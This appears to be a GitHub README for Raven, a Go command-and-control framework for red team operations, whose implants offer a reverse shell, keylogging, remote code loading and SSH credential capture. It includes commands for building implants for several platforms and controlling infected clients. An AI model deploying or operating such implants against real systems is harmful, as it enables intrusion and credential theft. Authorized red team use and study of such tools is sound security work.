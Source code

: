 # Raven C2
<p align="center">
  <img src="raven.webp" alt="Raven C2 Logo" width="300"/>
</p>

**Raven** is a lightweight, cross-platform Command & Control (C2) framework written in **Golang**. It supports **Windows**, **Linux**, and **macOS**, and is designed for red team operations and post-exploitation scenarios.

---

## ✨ Features

- ✅ mTLS Reverse Shell  
- ✅ Keylogger  
- ✅ File Download  
- ✅ File Upload  
- ✅ Loader (Remote Execution)  
- ✅ SSH Credential Capture (Linux)  
- ✅ Proxy Support (SOCKS5 & Port Forwarding)

---

## 📁 Project Structure

- `client/` – The implant (agent) that runs on the target machine  
- `server/` – The C2 server and control interface  
- `cmd/` – Bootstrapper to generate server TLS materials and start the server

---

## 🚀 Quick Start

### 1. Start the server

In the `cmd/` directory, run:

```bash
go run . -server-ip 127.0.0.1 -server-port 443
```

This generates server certificates and outputs the required setup. Then, run the server:

```bash
./server
```

Once running, you'll enter an interactive console:

```
$raven >
```

Use `help` to list available commands.

---

### 2. Build client binaries

To generate platform-specific payloads:

```
$raven > build windows/amd64 -ip 127.0.0.1 -port 443
$raven > build linux/386 -ip 127.0.0.1 -port 443
$raven > build darwin/arm64 -ip 127.0.0.1 -port 443
```

Once executed on a target, new clients will appear and can be listed with:

```
$raven > clients
```

---

### 3. File Upload Instructions

Before uploading a file, it must be registered using the `enroll` command and placed under the `cmd/uploads` directory.

Example:

```bash
$raven > enroll test.txt
```

Then you can upload it to the target with:

```
$raven > upload test.txt <target-path>
```

---

## ⚙️ Requirements

- Go 1.20+
- OpenSSL (for generating certs, optional if pre-generated)

---

## 📌 Disclaimer

This project is created for **educational and authorized security research purposes only**.  
**Do not use it for illegal, malicious, or unethical activities.**  
The author assumes no responsibility for any damage caused by the misuse of this tool.
